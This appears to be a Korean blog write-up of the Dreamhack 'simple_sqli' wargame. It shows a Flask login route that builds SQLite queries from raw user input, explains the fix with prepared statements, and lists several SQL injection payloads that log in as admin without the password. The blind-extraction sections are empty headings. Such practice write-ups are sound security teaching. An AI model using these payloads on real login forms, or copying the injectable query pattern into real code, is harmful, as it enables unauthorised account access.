 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (3) : Exercise"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# 드림핵 웹 [함께실습] simple_sqli
## 웹 서비스 분석
### 데이터베이스 구조

```python
#데이터 베이스 파일명을 database.db로 설정
DATABASE = "database.db"
# 파일이 존재하지 않는 경우
if os.path.exists(DATABASE) == False:
    # 파일 생성 및 연결
    db = sqlite3.connect(DATABASE) 
    # users 테이블 생성
    db.execute('create table users(userid char(100), userpassword char(100));')
    # 관리자와 guest 계정 생성
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    db.close() # db 연결 종료
```
<br>

**위의 코드로 생성된 데이터 베이스의 구조**<br>
이 때 guest 계정의 비밀번호는 이요앚가 알 수 있지만, admin 게정은 랜덤하게 생성됨 16바이트의 문자열이기에, 비밀번호를 예상할 수 없다

|userid|userpassword|
|:------:|:---|:---|
|guest|guest|
|admin|랜덤 16바이트 문자열을 Hex 형태로 표현 (32비트)|

### 엔드포인트 : /login

```python
# Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
@app.route('/login', methods=['GET', 'POST']) 
def login(): # login 함수 선언
    if request.method == 'GET': 
        # 이용자가 GET 메소드의 요청을 전달한 경우, 이용자에게 ID/PW를 요청받는 화면을 출력
        return render_template('login.html')
    else: # POST 요청을 전달한 경우
        # 이용자의 입력값인 userid를 받은 뒤, 이용자의 입력값인 userpassword를 받고
        userid = request.form.get('userid') 
        userpassword = request.form.get('userpassword')
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
            if userid == 'admin': # 이 때, 로그인 계정이 관리자 계정인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력
            # 관리자 계정이 아닌 경우, 웰컴 메시지만 출력
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        # 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력
        return '<script>alert("wrong");history.go(-1);</script>'
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
### 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인
위의 login 함수에서 userid와 userpassword를 받은 후, query_db 함수를 사용하여 SQLite에게 질의한다. 이처럼 동적으로 생성한 쿼리를 RawQuery라고 한다. RawQuery를 생성할 때, 이용자의 입력값이 쿼리문에 포함된다면 SQL Injection에 노출된다. 이용자의 입력값을 검사하는 과정이 없기에, 임의의 쿼리문을 userid, userpassword에 삽입하여 공격할 수 있는 것이다. SQL 데이터를 사용할 때 쿼리문을 직접 생성하는 방식이 아닌, Prepared Statement와 ORM(Object Relational Mapping)을 사용하여 해결할 수 있다. Prepared Statement는 동적 쿼리가 전달되면 내부적인 쿼리 분석을 통해 안전한 쿼리문을 생성한다
```python
def query_db(query, one=True): # query_db 함수 선언
    cur = get_db().execute(query) # 연결된 데이터베이스에 쿼리문을 질의
    rv = cur.fetchall() # 쿼리문 내용을 받아오기
    cur.close() # 데이터베이스 연결 종료
    # 쿼리문 질의 내용에 대한 결과를 반환
    return (rv[0] if rv else None) if one else rv 
```
#### 로그인 쿼리
```
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";
```
#### SQL Injection 공격 쿼리문 작성
```
/*
ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

### 관리자 계정의 비밀번호를 모른 채 로그인을 우회
1. 개발자도구의 네트워크 탭 -> Preserve log
2. userid, password에 guest를 입력하고 login 버튼 클릭
3. /login으로 전송된 POST요청 찾기
4. 하단의 Form Data 확인

#### 비밀번호 길이 파악
#### 비밀번호 획득


